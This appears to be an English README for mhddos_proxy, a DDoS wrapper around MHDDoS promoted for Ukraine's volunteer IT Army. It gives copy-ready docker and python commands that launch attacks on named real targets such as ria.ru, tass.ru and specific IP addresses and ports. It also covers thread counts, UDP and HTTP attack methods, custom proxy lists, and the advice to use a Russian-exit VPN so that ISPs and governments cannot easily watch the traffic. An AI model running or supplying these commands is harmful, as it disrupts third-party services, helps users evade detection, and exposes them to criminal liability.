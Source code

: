 - This is an english translation of the MHDDoS Proxy program to help the Ukrainian Volunteer IT Army, the Ukrainian language version can be found here: https://github.com/porthole-ascend-cinnamon/mhddos_proxy

- I have added some things to the readme that I felt helped to make use more clear to everyone.

- The script execution is the same as the Ukrainian Language version, the only thing that is diffirent is the output is in english. English is the only language that I speak, so I wanted to create an english translation of this tool so that I could better understand the output, use the tool more effectively, and so others who don't speak Ukrainian but want to help could make use of it.

Script wrapper to run the MHDDoS tool [MHDDoS](https://github.com/MHProDev/MHDDoS).

- **Does not need VPN** - the script downloads a proxylist, and selects working proxies for the attack (If you use a VPN there is a mode available use the `--vpn` flag)
- **You should Use A VPN** - In my personal/professional opinion, if you are using this tool you should be using a VPN, ideally a VPN that exits in Russia. Having an exit server in Russia will result in a more effective attack, however a VPN exiting from any country that IS NOT Ukraine is fine. In some countries it is VERY ILLEGAL to even particapate in any kind of DDoS attack (see: https://en.wikipedia.org/wiki/Computer_Fraud_and_Abuse_Act) so using a good quality VPN provider will encrypt your outbound traffic so that your ISP and governments can not easily listen in on your traffic. For information on providers you can use that have exit nodes in Russia visit: https://itarmy.com.ua/?lang=en scroll down, and select the VPN services button to see a list of providers.
- Attack **several Targets** with automatic load balancing

- Uses **various methods for attack**

### ⏱ Recent updates

- **23.04.2022** 
  - Check box changed `--vpn` - now your IP / VPN is used ** together ** with the proxy, not instead. To achieve the previous behavior, use `--vpn 100`
- **20.04.2022**
  - Significantly improved utilization of system resources for effective attack.
  - Added `--udp-threads` parameter to control the power of UDP attacks (default 1).

<details>
  <summary>📜 Previous Updates</summary>

- **18.04.2022** 
- In `--debug` mode added" total "statistics for all purposes.
  - Added more proxies.
- **13.04.2022** 
  - Added the ability to disable targets and add comments to the configuration file - now lines starting with # are ignored.
  - Fixed an issue where the script crashed after a long run and other bugs when changing loops.
  - Fixed color display on Windows (without editing the registry).
  - Now, if all the targets are unavailable, the script will wait, instead of stopping completely.
- **09.04.2022** New proxy system - now everyone gets ~ 200 proxies to attack from a total pool of over 10,000. The `-p` (` --period`) and `--proxy-timeout` parameters are no longer used.
- **04.04.2022** Added the ability to use your own proxy list for the attack - [instructions] (# custom-proxies).
- **03.04.2022** Fixed bug Too many open files (thanks, @ kobzar-darmogray and @ euclid-catoptrics).
- **02.04.2022** Workflows are no longer restarted for each cycle, but are reused. Ctrl-C has also been fixed.
- **01.04.2022** Updated CFB method in accordance with MHDDoS.
- **31.03.2022** Added reliable DNS servers for target resolving, instead of system ones. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Added support for local configuration file (thanks, @ kobzar-darmogray).
- **28.03.2022** Added tabular output `--table` (thank you very much, @ alexneo2003).
- **27.03.2022**
    - DBG, BOMB (thanks to @ drew-kun for PR) and KILLER methods are allowed to run to match the original MHDDoS.
- **26.03.2022**
    - Launch all selected attacks instead of random.
    - Reduced RAM usage on a large number of targets - now only the `-t` parameter affects RAM
    - Added DNS caching and correct handling of resolving problems.
- **25.03.2022** Added VPN mode instead of proxy (`--vpn` checkbox).
- **25.03.2022** MHDDoS included in the repository for greater control over development and protection against unexpected
  changes.
</details>

### 💽 Installation | Installation - [instructions HERE](/docs/installation.md)

### 🕹 Launch | Running (different options for targets are given)

#### Docker

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python 

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### if it doesn't work - use just python instead of python3

  python runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (more info is available in the section [CLI](#cli))

**All parameters can be combined**, you can specify both before and after the list of targets.

Change load - -t XXXX - number of threads, default - CPU * 1000

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

To view information about the progress of the attack, add the `--table` check box for the table,` --debug` for the text.

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru

### 🐳 Community
- [Detailed analysis MHDDoS_proxy](https://github.com/SlavaUkraineSince1991/DDoS-for-all/blob/main/MHDDoS_proxy.md)
- [Utility for converting shared targets into config format](https://github.com/kobzar-darmogray/mhddos_proxy_utils)
- [Analysis of the tool mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with attack targets
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path to file with proxies to use
      --udp-threads 1        Total number of threads to run for UDP sockets (defaults to 1)
      --http-methods GET     List of HTTP(s) attack methods to use (default is GET + POST|STRESS).
                             Refer to MHDDoS docs for available options (https://github.com/MHProDev/MHDDoS)

### Own proxies

#### File format:

    114.231.123.38:1234
    username:password@114.231.123.38:3065
    socks5://114.231.155.38:5678
    socks4://username:password@114.231.123.38:3065

#### Remote file (same for Python and Docker)

    python3 runner.py --proxies https://pastebin.com/raw/UkFWzLOt https://ria.ru

#### For Python

Place the file next to `runner.py` and add the following check box to the command (replace` proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

#### For Docker
You must mount a volume for Docker to access the file.  
Be sure to specify the absolute path to the file and do not lose `/` before the file name

    docker run -it --rm --pull always -v /home/user/ddos/mhddos_proxy/proxies.txt:/proxies.txt ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --proxies /proxies.txt https://ria.ru
